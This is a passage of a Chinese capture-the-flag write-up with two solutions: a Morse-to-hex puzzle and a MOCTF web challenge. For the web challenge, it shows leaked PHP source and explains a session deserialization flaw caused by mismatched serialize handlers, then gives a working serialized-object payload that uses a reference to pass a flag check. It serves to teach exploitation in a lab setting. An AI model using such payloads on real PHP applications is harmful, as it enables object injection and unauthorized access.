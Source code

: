 ```
-.... -.. -.... ..-. -.... ...-- --... ....- -.... -.... --... -... ....- ..--- -.... -.-. ...-- ....- -.... . -.... -... ..... ..-. ...-- ----- --... ..--- ..... ..-. --... ....- -.... .---- -.... ..--- ...-- ..-. --... -..
```
解摩斯密码，然后hex转字符串得到flag

# WEB
### 登录一哈 300
```
登录一下，你就知道。
http://111.230.32.124:6001/
```
源码放到git里泄露给大家了
index.php
```php
<?php
    ini_set('session.serialize_handler', 'php_binary');
    session_start();

    if(isset($_POST['username']) && isset($_POST['password'])){
        $username = $_POST['username'];
        $password = $_POST['password'];
        $_SESSION["username"] = $username;
        header("Location:./index.php");
    }
    else if(isset($_SESSION["username"])){
        echo '<h1>hello '.$_SESSION["username"].'</h1>';
    }
    else ...
```
flag.php
```php
<?php
session_start();
class MOCTF{
    public $flag;
    public $name;
    function __destruct(){
        $this->flag = "moctf{xxxxxxxxxxxxxxxx}";
        if($this->flag == $this->name){
            echo "Wow,this is flag:".$this->flag;
        }
    }
}
```
看源码就可以知道这道题考查的是session反序列漏洞了
在index.php中php的序列化handler是'php_binary'，而flag.php里没有设置，就是默认的'php'
```php
ini_set('session.serialize_handler', 'php_binary');
```
参考https://blog.spoock.com/2016/10/16/php-serialize-problem/
index.php中的`$_session['username']`可控，我们就能构造payload到session，
然后访问flag.php页面就能触发反序列化执行`__destruct`了，
这里还有个考点是`$this->flag == $this->name`，通过引用的方式绕过。
构造payload
```php
$a = new MOCTF();
$a->name = &$a->flag;
echo '|'.serialize($a);
```
```
|O:5:"MOCTF":2:{s:4:"flag";N;s:4:"name";R:2;}
```